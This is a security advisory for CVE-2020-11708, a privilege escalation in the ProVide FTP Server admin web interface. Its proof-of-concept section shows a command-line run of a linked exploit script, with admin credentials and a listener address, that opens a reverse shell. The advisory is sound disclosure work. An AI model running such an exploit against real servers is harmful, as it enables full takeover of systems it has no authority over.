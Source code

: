 ```yaml
---
layout: default
parent: ProVide FTP Server for Windows
nav_order: 8
title: CVE-2020-11708 - Privilege Escalation via EXECUTE()
---
```

# Web Admin Interface - Privilege Escalation via EXECUTE()

## Summary

The application allows the FTP server admin to execute programs upon certain events are triggered. This behaviour could be exploited by an attacker, to achieve Vertical Privilege Escalation, leading to full takeover of the underlying hosting server (From Web Application Admin to Windows NT\System user).

## VulDB-Like Summary

A vulnerability has been found in the Admin Web Interface of ProVide FTP Server (formerly zFTP) for Windows up to v13.1. It has been declared as critical. Affected by this vulnerability is an unknown part of the file /ajax/SetUserInfo. The manipulation of the parameter **messages** with an unknown input value leads to a privilege escalation vulnerability. The CWE definition for the vulnerability is CWE-79. As an impact it is known to affect confidentiality, integrity and availability. An attacker might be able to execute arbitrary code on the underlying hosting server, leading to full server takeover.

The weakness was disclosed 04/06/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). It is possible to read the advisory at github.com. This vulnerability is known as CVE-2020-11708. The attack can be launched remotely. A single authentication is needed for exploitation. Technical details of the vulnerability are known, but there is no available exploit.

## Proof-of-Concept

The [privesc.py](https://github.com/belong2yourself/vulnerabilities/blob/master/docs/ProVide/Web%20Admin%20Interface%20-%20Privilege%20Escalation%20via%20EXECUTE()/privesc.py) script has been provided to reproduce the issue.

```shell
root@kali:~# python3 privesc_exec.py -t 192.168.226.140 -u Admin -p Passw0rd! -H 192.168.226.129 -P 4444 
[+] Logging in
[+] Creating Rogue User
[+] Enabling FTP
[+] Setting up listener
[+] Triggering reverse shell
[+] Check your shell
```

A video is available as well, to easily understand what the impact could be.

## Remediation

Currently, no official fix is available for this issue.

## References

* [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control)
* [https://www.acunetix.com/blog/web-security-zone/what-is-privilege-escalation/](https://www.acunetix.com/blog/web-security-zone/what-is-privilege-escalation/)
* [https://cwe.mitre.org/data/definitions/269.html](https://cwe.mitre.org/data/definitions/269.html)